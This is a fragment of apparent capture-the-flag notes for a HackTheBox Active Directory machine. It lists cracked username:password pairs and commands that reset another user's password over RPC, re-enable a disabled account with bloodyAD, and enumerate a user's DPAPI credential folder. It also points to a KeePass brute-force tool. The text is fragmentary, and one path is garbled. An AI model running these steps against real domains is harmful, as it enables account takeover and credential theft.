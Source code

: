 To get the hash for the kdbx I use # https://github.com/r3nt0n/keepass4brute



ant.edwards:Antman2025!
levi.james:KingofAkron2025!
steph.cooper:ChefSteph2025!




❯ net rpc password "adam.silver" "newP@ssword2022" -U 'puppy.htb/ant.edwards%Antman2025!' -S <ip address>
❯ bloodyAD --host 10.129.200.82 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE



Get-ChildItem "C:\Userssteph.cooper\AppData\Roaming\Microsoft\Protect" -Force -Recurse | Format-List
